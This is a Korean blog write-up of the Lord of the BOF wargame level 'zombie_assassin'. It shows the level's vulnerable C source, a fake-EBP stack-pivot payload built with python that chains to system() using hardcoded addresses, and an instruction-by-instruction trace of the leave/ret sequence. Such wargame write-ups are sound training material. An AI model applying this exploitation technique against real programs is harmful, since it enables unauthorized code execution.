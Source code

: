 ```yaml
---
title: The Lord of the BOF - assassin -> zombie_assassin
slug: lob-assassin
date: 2017-01-04 17:14:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


코드는 이렇다.

```c
/*
    The Lord of the BOF : The Fellowship of the BOF
    - zombie_assassin
    - FEBP
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
    char buffer[40];

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    if(argv[1][47] == '\xbf')
    {
        printf("stack retbayed you!\n");
        exit(0);
    }

    if(argv[1][47] == '\x40')
    {
        printf("library retbayed you, too!!\n");
        exit(0);
    }

    // strncpy instead of strcpy!
    strncpy(buffer, argv[1], 48);
    printf("%s\n", buffer);
}
```

구조상

01 ~ 40: 버퍼

41 ~ 44: sfp

45 ~ 48: ret

이렇게 되고, 이 공간만 내가 쓸 수 있다.

푸는 건 FEBP를 검색해서 풀었다.

sfp에 내가 쓰고 싶은 스택 주소를 넣어주면 leave 명령어가 실행될 때 ebp에 내가 입력한 스택 주소가 입력된다. 그리고 ret 주소를 leave ret이 있는 주소로 지정해준다.

이게 무슨 말이냐 하면...

일단 페이로드부터 보자

```sh
./zombie_assassin `python -c 'print "A"*4 + "\xe0\x8a\x05\x40" + "B"*4 + "\xf9\xbf\x0f\x40" + "C"*24 + "\xa0\xfa\xff\xbf" + "\xdf\x84\x04\x08"'`
```

0xbffffaa0은 AAAA 문자열이 있는 주소다.

0x080484df는 leave와 ret 명령어가 있는 주소다.

실행 과정을 잘 써보면 이렇게 된다. (intel이라 생각하고 읽어 주샘)

```x86asm
main:
    push ebp (sfp에 ebp PUSH)
    mov ebp, esp
leave:
    mov esp, ebp
    pop ebp (sfp에서 0xbffffaa0 POP)
ret:
    pop eip (ret에서 0x080484df POP)
leave:
    mov esp, ebp (이제 스택 위치는 0xbffffaa0)
    pop ebp (0xbffffaa0에서 0x41414141 POP)
ret:
    pop eip (0xbffffaa4에서 0x40058ae0 POP)
system:
    push ebp (0xbffffaa4에 0x41414141을 PUSH)
    mov ebp, esp
leave:
    mov esp, ebp
    pop ebp (0xbffffaa4에서 0x41414141 POP)
ret:
    pop eip (0xbffffaa8에서 0x42424242 POP)
0x42424242:
    ???
```
